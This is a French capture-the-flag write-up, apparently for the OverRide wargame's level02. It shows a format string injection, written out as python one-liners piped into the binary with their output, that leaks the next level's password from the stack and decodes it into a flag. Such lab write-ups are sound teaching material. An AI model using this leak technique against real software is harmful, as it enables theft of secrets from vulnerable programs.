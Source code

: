 # Level 02

### Protections

![](Ressources/protections.png)

### Analyse

Le programme demande un **username** et un **password** a l'aide de `fgets()`.

Le programme ouvre le fichier `/home/users/level03/.pass` que l'on convoite tant. En effet, si on entre un certain mot de passe, le programme nous montrera le contenu du `.pass`.

*Vu que GDB supprime le bit SUID, l'ouverture et la lecture du .pass ne fonctionnera pas et le programme crashera, on va donc devoir se passer de celui-ci.*

Seulement, c'est un `strncmp()` qui fait la verification, et il compare notre entree au contenu du `.pass`. *Donc pour avoir le mot de passe de level03 il nous faut le mot de passe de level03* 🥲

Le programme parrait protege a une attaque de type Buffer Overflow.

Mais si on l'examine de plus pres, il y a un `printf()` qui prend en parametre notre entree. On a rien a perdre alors pourquoi ne pas tenter un **Format String Injection** ?

```m
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************
| You must login to access this system. |
\**************************************/
--[ Username: %x%x%x%x
--[ Password:
.ffffe3d002e2a2a2a2a does not have access!
```

Interessant, on sait maintenant qu'**on peut lire et ecrire dans la memoire**.

Jetons un coup d'oeil au code desassemble:

* Le buffer contenant la string lue par `printf()` est situe a `$rbp-0x70`
* Le buffer contenant le flag (`fread()`) se situe a `$rbp-0xa0`

*Techniquement, le premier buffer se situe donc avant le second.*

Quand on effectue un **Format String Injection**, `printf()` lit la memoire a partir du registre `rsp` en remontant vers `rbp`.

➤ Cela signifie qu'on va peut-etre pouvoir lire le contenu du `fread()`

### Exploitation

On sait que:

* La distance qui separe les deux buffers est de **48 octets**
* `printf()` va nous permettre de lire le buffer du `fread()` en faisant un **Format String Injection**
* Il s'agit d'un code **x86_64**

On doit dans un premier temps savoir quel est l'offset pour "Overflow" sur le buffer de `printf()`.

`(python -c 'print "A"*8 + " %p"*28') | ./level02`

```

===== [ Secure Access System v1.0 ] =====
/***************************************
| You must login to access this system. |
\**************************************/
--[ Username:
--[ Password:
*****************************************
AAAAAAAA 0x7fffffffe3d0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe5c8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x4141414141414141 does not have access!
```

1. On print 8 'A' de maniere a obtenir 0x414141.. dans la memoire et detecter facilement a partir de quand `printf()` lit le 1er buffer.
2. %p affiche un adresse memoire, sur 8 octets ici.

*On donne des format a `printf()` mais celui-ci n'a pas d'arguments a prendre pour ceux-ci, il va donc afficher ce qu'il a sous la main est iterer dans la memoire du programme.*

On retrouve donc notre entree sous forme hexadecimal (0x4141414141414141) a **28*8 octets**.

On peut reiterer l'experience plus proprement comme ceci:

`(python -c 'print "AAAAAAAA" + "%28$p"') | ./level02`

```

===== [ Secure Access System v1.0 ] =====
/***************************************
| You must login to access this system. |
\**************************************/
--[ Username: 
--[ Password: 
*****************************************
AAAAAAAA0x4141414141414141 does not have access!
```

**On sait comment retrouver le premier buffer**, et la distance entre les deux buffer reste inchangee.

Il nous suffit alors de faire le calcul suivant:

```28 - (48 / 8) = 22donc (python -c 'print "AAAAAAAA" + "%22$p"') | ./level02 devrait nous donne la premiere partie du .pass (la derniere en realite)
28 - (48 / 8) = 22

donc (python -c 'print "AAAAAAAA" + "%22$p"') | ./level02 devrait nous donne la premiere partie du .pass (la derniere en realite)
```

*On sait que le .pass comporte 40 octets a chaque level, on doit donc lire 5*8 octets.*

```
(python -c 'print "%22$lx" + "%23$lx" + "%24$lx" + "%25$lx" + "%26$lx"') | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394d does not have access!
```

*On remplace %p par %lx pour esquiver les "0x".*

**On a donc le password sous forme hexadecimale, mais les blocks de 8 sont en Little Endian, il va donc falloir tout remettre dans le bon ordre.**

`756e5052 34376848 45414a35 61733951 377a7143 574e6758 354a3568 6e475873 48336750 664b394d`

```75 6e 50 52 34 37 68 48
75 6e 50 52 34 37 68 48
45 41 4a 35 61 73 39 51
37 7a 71 43 57 4e 67 58
35 4a 35 68 6e 47 58 73
48 33 67 50 66 4b 39 4d
```

devient

```
48 68 37 34 52 50 6e 75  // On reverse simplement les octets de chaque bloc de 8
51 39 73 61 35 4a 41 45
58 67 4e 57 43 71 7a 37
73 58 47 6e 68 35 4a 35
4d 39 4b 66 50 67 33 48
```

Il ne nous reste plus qu'a convertir cela en ASCII.

Flag: **Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H**
